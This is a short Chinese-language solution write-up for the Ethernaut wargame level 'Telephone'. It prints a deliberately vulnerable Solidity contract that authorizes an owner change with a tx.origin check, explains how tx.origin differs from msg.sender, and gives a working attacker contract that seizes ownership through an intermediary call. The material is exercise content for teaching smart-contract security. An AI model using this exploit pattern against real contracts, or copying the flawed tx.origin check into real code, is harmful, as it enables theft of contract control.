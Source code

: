 # Ethernaut 04-Telephone

## 本关目标

- 成为合约的 owner

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  // 我们需要借助该函数修改owner
  function changeOwner(address _owner) public {
    // 只要tx.orign和msg.sender不同就可以修改owner
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## 解决方案

1. tx.orign 是一个交易的最初发起者，msg.sender 是合约的直接调用者，例如账户 A 通过合约 B 调用合约 C 的 changeOwner()，那么对于合约 C 的 changeOwner()，msg.sender 是合约 B 的地址，tx.orign 是账户 A 的地址
2. 构造一个合约 Hack，调用 Hack 中的函数调用 Telephone 的 changeOwner 即可

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./Telephone.sol";

contract Hack {
    Telephone public immutable telephone;

    constructor(address _target) {
        telephone = Telephone(_target);
    }

    function change() public {
        telephone.changeOwner(msg.sender);
    }
}
```
